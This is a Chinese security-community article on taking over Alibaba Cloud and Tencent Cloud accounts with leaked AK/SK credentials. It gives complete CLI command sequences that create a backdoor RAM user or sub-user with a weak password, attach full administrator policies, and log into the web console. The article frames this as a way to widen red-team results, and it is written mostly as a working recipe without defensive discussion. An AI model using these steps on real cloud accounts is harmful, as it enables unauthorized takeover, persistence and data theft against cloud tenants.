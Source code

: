 

# 如何利用官方工具+ak，sk 接管云平台 - 先知社区

如何利用官方工具+ak，sk 接管云平台

- - -

## 如何通过 ak，sk 登录云平台

在云计算中，AK（Access Key）和 SK（Secret Key）通常用于进行 API 调用，以便访问和管理云服务资源。这些密钥对于安全性至关重要，因为它们允许对云资源执行各种操作。如果泄露或不当使用，可能会导致严重的安全风险和数据泄露。  
而在实战中，大部分文章基本是什么工具一把嗦嗦哈，看 oss，rds，ecs，其实如果 ak，sk 权限过大，是可以创建子用户来登录云管的，说不定登进去就能接管域名，im 服务等扩大攻防成果。

下面介绍腾讯云，阿里云的接管方式，其他云大差不差，看官方文档就能搞

## 阿里云

阿里云有一个 ram 账号，可以看看他的官方介绍

[![](assets/1706957968-e52c57bdad2aa091b815ecc8edbdd563.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172319-b3f58572-c1ac-1.png)

RAM 用户由阿里云账号（主账号）或具有管理员权限的其他 RAM 用户，同时 ram 账号可以用 ak，sk 进行调用 api 创建  
根据阿里云官方的命令行工具[https://github.com/aliyun/aliyun-cli/blob/master/README-CN.md](https://github.com/aliyun/aliyun-cli/blob/master/README-CN.md)

配置 ak sk

```plain
./aliyun configure --profile akprofile
```

[![](assets/1706957968-b6be0d04598ad9440a817a2429976a09.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172334-bd2fc7f6-c1ac-1.png)

创建 ram 账号

```plain
查看别名
./aliyun ram GetAccountAlias
常见账号
./aliyun aliyun ram CreateUser --UserName SxfnbQaxsb2333
设置密码
./aliyun ram CreateLoginProfile --UserName SxfnbQaxsb2333 --Password 123456
设置权限
./aliyun ram AttachPolicyToUser --PolicyType System --PolicyName AdministratorAccess --UserName SxfnbQax**2333
```

创建好账号后，查看该云的别名

```plain
./aliyun ram GetAccountAlias 获取 id 放在域名后面
```

[![](assets/1706957968-8ba72a90cf0edb64e3e2faaccfd1c1c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172350-c65ceeb2-c1ac-1.png)

登录账号为  
创建的用户@+别名+.onaliyun.com  
然后就可以用这个账号正常登录阿里云，和你自己账号登录阿里云一样

[![](assets/1706957968-fa1b39ea7156ef2f854c8e05864a62d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172359-cbe3a6e6-c1ac-1.png)

## 腾讯云

腾讯云也一样，只不过叫法不同，腾讯云叫子用户，与阿里云不同的是，腾讯云登录子用户需要主账号 id 才可以

[![](assets/1706957968-2bc4d2a84ef326997c23a13de61fda7d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172421-d8e22a5c-c1ac-1.png)

我们下载其官方命令行工具[https://github.com/TencentCloud/tencentcloud-cli](https://github.com/TencentCloud/tencentcloud-cli)

查看命令行命令

```plain
获取主用户 id
tccli cam GetUserAppId --cli-unfold-argument
```

[![](assets/1706957968-7c26c77f9f3906b6a26629b54ce86bb9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172431-deebf4a0-c1ac-1.png)

[![](assets/1706957968-7c982aaf02ed7f65c9f11d4fb21d701a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172444-e6b57e4a-c1ac-1.png)

```plain
创建子用户
tccli cam AddUser –cli-unfold-argument --Name Sxfnb2333 --Remark sxf --ConsoleLogin 1 --Password '123456' --NeedResetPassword 0
查询策略
tccli cam ListPolicies --cli-unfold-argument
给最高权限
tccli cam AttachUserPolicy --cli-unfold-argument --PolicyId 1 --AttachUin 100035117703
列出子用户
tccli cam ListUsers --cli-unfold-argument
```

创建好后然后去登录

[![](assets/1706957968-357f21c9fb5b84e9cafbbc3f78ff45fd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172451-eab23574-c1ac-1.png)

[![](assets/1706957968-55b8c239a0c417db9fdb21b04bb2a07e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172458-eef20c5e-c1ac-1.png)
